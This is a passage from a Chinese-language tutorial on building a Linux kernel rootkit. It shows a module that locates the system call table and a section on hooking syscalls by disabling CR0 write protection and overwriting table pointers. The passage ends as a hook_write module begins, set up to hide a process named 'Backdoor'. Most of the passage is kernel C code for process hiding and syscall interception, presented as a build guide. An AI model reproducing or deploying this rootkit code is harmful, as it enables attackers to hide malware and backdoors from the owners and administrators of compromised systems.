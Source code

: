 ```c
    {
        printk("get_act_addr(): NULL...\n");
        return 0;
    }
    else{
        printk("sct: 0x%p\n", (unsigned long)sys_call_table);
	    return 0;
	}	
}


static void filter_exit(void)
{
    printk(KERN_INFO "hideps: module removed\n");
}


MODULE_LICENSE("GPL");
module_init(filter_init);
module_exit(filter_exit);

```



### 2.3 rootkit实现hook示例

我们已经获得了系统调用，接下来要考虑的就是如何篡改系统调用了，基本思路是将SCT中指向正常系统调用的指针改成我们自己的函数地址。由于SCT原来是有写保护的，所以我们首先要取消写保护，写完之后恢复写保护，代码：

```c
void disable_write_protection(void)
{
        unsigned long cr0 = read_cr0();
        clear_bit(16, &cr0);
        write_cr0(cr0);
}

void enable_write_protection(void)
{
        unsigned long cr0 = read_cr0();
        set_bit(16, &cr0);
        write_cr0(cr0);
}
```

接下来实现我们自己的系统调用，一般而言就是对系统原有的结果进行过滤，这里实现了一个hook_write的例子。

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <asm/unistd.h>
#include <linux/types.h>
#include <linux/sched.h>
#include <linux/dirent.h>
#include <linux/string.h>
#include <linux/file.h>
#include <linux/fs.h>
#include <linux/list.h>
#include <asm/uaccess.h>
#include <linux/unistd.h>
#include <linux/slab.h>


char psname[10] = "Backdoor";
char *processname = psname;
```